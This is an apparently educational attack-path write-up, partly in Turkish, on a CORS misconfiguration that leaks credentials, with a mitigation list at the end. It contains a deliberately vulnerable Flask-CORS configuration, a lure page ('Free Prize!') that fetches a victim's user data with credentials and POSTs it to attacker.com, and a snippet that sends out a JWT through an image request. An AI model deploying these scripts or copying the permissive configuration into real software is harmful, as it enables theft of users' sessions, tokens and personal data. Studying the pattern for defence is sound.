

# Attack Path 8: CORS Misconfig → Credential Leak

## Overview
CORS header yanlış yapılandırması ile credential / token çalma.

## Mermaid Diagram


## Adım Adım Senaryo

1. **Kurban giriş yapar** → session cookie set.
2. **Saldırgan sitesi (evil.com)** XHR ile `/api/user` çeker.
3. **CORS yanlış**: `Access-Control-Allow-Origin: *` ve `credentials: include`.
4. **Attacker response alır** → session / PII leak.

## Vulnerable Configuration
```python
# Bad CORS configuration in app.py
from flask_cors import CORS
CORS(app, 
     origins="*", 
     supports_credentials=True)  # DANGEROUS!
```

## Attacker Script (evil.com)
```html
<!DOCTYPE html>
<html>
<head>
    <title>Free Prize!</title>
</head>
<body>
    <h1>Click to claim your prize!</h1>
    <script>
        // Steal user data via CORS misconfiguration
        fetch('http://vulnerable-app.com/api/user', {
            credentials: 'include'
        })
        .then(response => response.json())
        .then(data => {
            // Send stolen data to attacker server
            fetch('https://attacker.com/steal', {
                method: 'POST',
                body: JSON.stringify(data)
            });
        });
    </script>
</body>
</html>
```

## Steal JWT Token
```javascript
// If JWT stored in localStorage (also bad practice)
fetch('http://vulnerable-app.com/api/profile', {
    credentials: 'include'
})
.then(r => r.json())
.then(d => {
    // Extract JWT from response
    new Image().src = 'https://attacker.com/log?jwt=' + d.token;
});
```

## Vulnerable Endpoints
- `/api/user` - Returns user profile with credentials
- `/api/settings` - Returns sensitive configuration
- `/api/tokens` - Returns active tokens

## Difficulty
**Medium**

## Mitigation
- Never use `Access-Control-Allow-Origin: *` with credentials
- Whitelist specific origins
- Validate Origin header server-side
- Use `SameSite=Strict` on cookies
- Implement proper CSRF tokens
